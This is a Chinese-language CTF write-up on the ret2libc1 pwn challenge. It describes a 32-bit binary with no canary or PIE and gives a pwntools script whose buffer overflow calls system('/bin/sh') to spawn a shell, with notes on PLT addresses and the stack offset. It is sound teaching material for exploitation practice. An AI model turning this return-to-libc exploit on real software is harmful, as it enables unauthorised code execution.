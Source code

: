 ```yaml
---
title: 「PWN」BasicROP　-　Ret2Libc
tags: ["CTF", "Pwn"]
authors: [nova]
---
```


# Basic ROP - Ret2libc

痛定思痛了属于是，连续几次比赛一题做不出来，得到了 zbr 爹的~~指~~指点~~点~~，决定自裁。

整。



## ret2libc1

检查一下保护，没有 Canary 也没有 PIE，32 位 ELF

![](https://oss.nova.gal/img/image-20211212102309182.png)

在 string 列表里即看得到`system`也看得到`/bin/sh`

![](https://oss.nova.gal/img/image-20211212102632678.png)

简单的构造一个函数覆盖返回地址即可

```python
from pwn import *

context.log_level='DEBUG'
context.arch='amd64'
context.os='linux'

sh = process("./ret2libc1")
elf = ELF("./ret2libc1")

system_addr = 0x8048460  # plt
# system_addr = elf.plt["system"]  # it works as well
binsh_addr = 0x08048720
sh.recvuntil(b"RET2LIBC >_<\n")

payload = b'A'*(0x6c+0x04) + p32(system_addr) + p32(0xdeadbeef) + p32(binsh_addr)
sh.sendline(payload)
sh.interactive()

```

说一下一些点

- system 的地址应取 plt 表里的 system，而不是 string 里看到的那个 system。原因参见 PLT / GOT - 动态绑定

- 这题中在 IDA 中可以看到`char s[100]; // [esp+1Ch] [ebp-64h] BYREF`，距离 ebp 是`0x64 bytes`，但实际上却是`0x6c bytes`
